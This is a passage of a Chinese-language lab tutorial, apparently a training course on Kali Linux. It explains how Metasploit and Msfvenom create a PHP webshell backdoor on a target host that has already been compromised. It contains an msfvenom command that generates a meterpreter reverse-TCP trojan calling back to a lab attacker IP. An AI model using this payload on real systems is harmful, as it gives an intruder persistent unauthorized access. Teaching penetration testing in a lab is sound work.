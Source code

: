 `Kali` 的登录密码为 `toor`。**注意：等 Kali 启动，输入命令后，要等待一段时间，再对 Kali 进行连接，否则会报错。** 登录成功后，如图所示：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481101646711.png-wm)


## 三、工具介绍

### 3.1 创建流程介绍

一般情况下，Metasploit 创建 WebShell 至少需要经过这四个阶段，即先生成木马，接着再上传到目标靶机，进入使用 Msfconsole 进行攻击，流程图如图所示：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481007266976.png-wm)

Metasploit 创建 WebShell 的流程为，先使用 Msfvemon 生成一个木马文件，通过将木马文件上传至目标靶机，建立起攻击机和目标靶机两者之间的连接。而通常在这个过程中，我们需要掌握的知识点，主要分为这两点：

- 如何生成木马文件？
- 上传木马文件到目标靶机后，如何获取 WebShell？

在这个 Kali 后门实战这个训练营中，上传木马需要目标靶机的管理权限。所以我们的实验都是建立在已经攻陷了目标主机，获取了目标靶机管理权限的情况下。一般在渗透攻击实战中，在攻陷对方主机后，为了后续步骤的进行，我们需要上传一个木马，从而达到再次访问该主机的目的。

该后门实战阶段，也可以叫做后渗透阶段。如果对于如何攻陷目标主机这一课程感兴趣的同学，也可以学习一下实验楼的另一门训练营，该课程专门介绍如何利用漏洞攻陷目标靶机，也是一门动手实践的课程，课程地址为：

> Kali 服务器攻击实战：https://www.shiyanlou.com/courses/698

### 3.2 工具介绍

生成木马的工具在安全信息攻防中数不胜数，而在这个 Metasploit 创建 WebShell 的实验中，我们生成木马的工具为 `Msfvenom`，下面是一段关于 Msfvenom 的简短介绍：

> Msfvenom 是 Msfpayload 与 Msfencode 的结合体。Msfvenom 同时具备了 Msfpayload 和 Msfencode 的优点。其优点特征是单一，命令行使用，效率高。

在许多的安全攻防过程中，不论是黑客还是信息安全人士，都非常喜欢使用`Metasploit`，它是一款开源的工具：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481007663790.png-wm)

> Metasploit 是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web 应用程序扫描，社会工程。团队合作，在 Metasploit 和综合报告提出了他们的发现。这款工具，附带数百个已知的漏洞，并保持频繁更新。被整个安全社区冠以"可以黑掉整个宇宙"外号的渗透框架。


## 四、过程实现

### 4.1 生成 PHP 木马

一般情况下，要根据目标靶机的情况来制定相应的木马程序。通常木马程序受目标靶机所运行的环境影响，在本实验中，木马的运行环境只要是能运行 PHP 代码的环境即可。上一节介绍了基本的工具背景之后，我们在实验楼的 Kali Linux 环境下，使用如下命令创建一个 PHP 木马文件，文件名为 `hello.php`：

```
msfvenom  -p  php/meterpreter/reverse_tcp LHOST=192.168.122.101 -f raw > hello.php
```
这句话的意思是输入生成攻击者主机的 IP 地址为 `192.168.122.101` 的主机，其中命令参数代表参含义如下列表：

| 参数名称 | 所代表含义                                                   |
| -------- | ------------------------------------------------------------ |
| `-p`     | 指定需要使用的 payload (攻击荷载)。                          |
| `-l`     | 列出指定模块的所有可用资源。                                 |
| `-f`     | 指定输出格式 (使用 --help-formats 来获取 msf 支持的输出格式列表) |
| `-v`     | 指定一个自定义的变量，以确定输出格式。                       |
